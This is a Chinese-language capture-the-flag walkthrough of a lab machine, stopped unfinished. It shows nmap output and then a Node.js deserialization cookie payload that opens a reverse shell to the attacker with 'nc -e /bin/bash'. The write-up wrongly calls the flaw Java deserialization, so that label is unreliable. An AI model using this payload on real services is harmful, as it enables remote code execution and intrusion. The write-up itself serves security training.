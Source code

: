 
## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,666 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 08:39 CST
Nmap scan report for 172.20.10.2
Host is up (0.00068s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:D8:5D:FF (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.32 seconds
```

## web渗透


![](images/2024-05-06-10-30-59.png)
初始页面如上
这里有个报错
![](images/2024-05-06-10-37-47.png)
抓包看数据包
发现起profile的cookie有一处错误

{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}

{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":`"`Friday, 13 Oct 2018 00:00:00 GMT"}

这里在Friday前少了一个`"`

{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e /bin/bash 172.20.10.13 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}

这里是java反序列化可以拿shell

{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e /bin/bash 172.20.10.13 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}

![](images/2024-05-06-15-21-48.png)
但是后面这靶机环境又有问题。。。很离谱，根本就做不了
